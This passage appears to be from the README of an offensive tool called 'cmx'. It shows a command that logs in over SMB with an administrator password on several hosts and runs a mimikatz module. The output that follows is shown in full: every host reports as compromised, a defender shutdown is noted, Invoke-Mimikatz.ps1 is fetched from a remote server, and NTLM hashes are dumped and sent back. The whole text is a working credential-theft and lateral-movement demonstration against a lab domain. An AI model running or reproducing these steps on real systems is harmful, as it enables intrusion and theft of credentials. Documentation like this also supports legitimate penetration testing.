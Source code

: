 ```
Sep.02.19 14:16:55  MIMIKATZ    10.10.33.104         [*] Saved raw Mimikatz output to /root/.cmx/logs/Mimikatz_against_10.10.33.104_on_Sep.02.19_at_1416.log

```

Multiple Targets:  
```
~# cmx smb 10.10.33.122-125 -u Administrator -p AdminSuper\!23 -M mimikatz

Sep.02.19 14:11:51  SMB         10.10.33.124:445  WIN7P-PC [*] Windows 7 Ultimate 7601 Service Pack 1 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Sep.02.19 14:11:51  SMB         10.10.33.122:445  SERVER2012-2 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:False) (SMBv:1)
Sep.02.19 14:11:51  SMB         10.10.33.123:445  WIN7E-PC [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:False) (SMBv:2.1)
Sep.02.19 14:11:51  SMB         10.10.33.125:445  WIN10E  [*] Windows 10.0 Build 17763 x64 (domain:OCEAN) (signing:False) (SMBv:3.0)
Sep.02.19 14:11:51  SMB         10.10.33.124:445  WIN7P-PC [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Sep.02.19 14:11:51  SMB         10.10.33.123:445  WIN7E-PC [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Sep.02.19 14:11:51  SMB         10.10.33.125:445  WIN10E  [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Sep.02.19 14:11:51  SMB         10.10.33.122:445  SERVER2012-2 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
            [!] Sleeping to allow defender process to finish shutting down[!] 
            [!] Sleeping to allow defender process to finish shutting down[!] 
            [!] Sleeping to allow defender process to finish shutting down[!] 
            [!] Sleeping to allow defender process to finish shutting down[!] 
Sep.02.19 14:12:00  MIMIKATZ    10.10.33.125:445          [+] Executed launcher
Sep.02.19 14:12:00  MIMIKATZ    10.10.33.122:445          [+] Executed launcher
Sep.02.19 14:12:01  MIMIKATZ    10.10.33.122         [*] - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
Sep.02.19 14:12:01  MIMIKATZ    10.10.33.125         [*] - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
Sep.02.19 14:12:01  MIMIKATZ    10.10.33.124:445          [+] Executed launcher
Sep.02.19 14:12:01  MIMIKATZ    10.10.33.123:445          [+] Executed launcher
Sep.02.19 14:12:01  MIMIKATZ                         [*] Waiting on 4 host(s)
Sep.02.19 14:12:01  MIMIKATZ    10.10.33.123         [*] - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
Sep.02.19 14:12:02  MIMIKATZ    10.10.33.124         [*] - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
Sep.02.19 14:12:08  MIMIKATZ    10.10.33.122         [*] - - "POST / HTTP/1.1" 200 -
Sep.02.19 14:12:08  MIMIKATZ    10.10.33.122         ocean.depth\ozzy:9ae52054b53d771c62414f93ed0a2599
Sep.02.19 14:12:08  MIMIKATZ    10.10.33.122         ocean.depth\SERVER2012-2$:73669c2ca02b7e0e210e6cf54022cd3d
Sep.02.19 14:12:08  MIMIKATZ    10.10.33.122         ocean.depth\SERVER2012-2$:fe39fa61cb8e68ee08ee24e753b44f39
Sep.02.19 14:12:08  MIMIKATZ    10.10.33.122         [+] Added 3 credential(s) to the database
Sep.02.19 14:12:08  MIMIKATZ    10.10.33.122         [*] Saved raw Mimikatz output to /root/.cmx/logs/Mimikatz_against_10.10.33.122_on_Sep.02.19_at_1412.log
Sep.02.19 14:12:12  MIMIKATZ    10.10.33.125         [*] - - "POST / HTTP/1.1" 200 -
Sep.02.19 14:12:12  MIMIKATZ    10.10.33.125         ocean.depth\agrande:bbc2bf2fbca9dd9ed74d3c1b55e3d727
Sep.02.19 14:12:12  MIMIKATZ    10.10.33.125         ocean.depth\WIN10E$:fd87354e5df9e43d123506286e11897b
Sep.02.19 14:12:12  MIMIKATZ    10.10.33.125         ocean.depth\WIN10E$:17e1af1da99cdb1a22561f3b50582d1d
Sep.02.19 14:12:12  MIMIKATZ    10.10.33.125         [+] Added 3 credential(s) to the database
Sep.02.19 14:12:12  MIMIKATZ    10.10.33.125         [*] Saved raw Mimikatz output to /root/.cmx/logs/Mimikatz_against_10.10.33.125_on_Sep.02.19_at_1412.log
Sep.02.19 14:12:16  MIMIKATZ                         [*] Waiting on 2 host(s)
Sep.02.19 14:12:16  MIMIKATZ    10.10.33.123         [*] - - "POST / HTTP/1.1" 200 -
```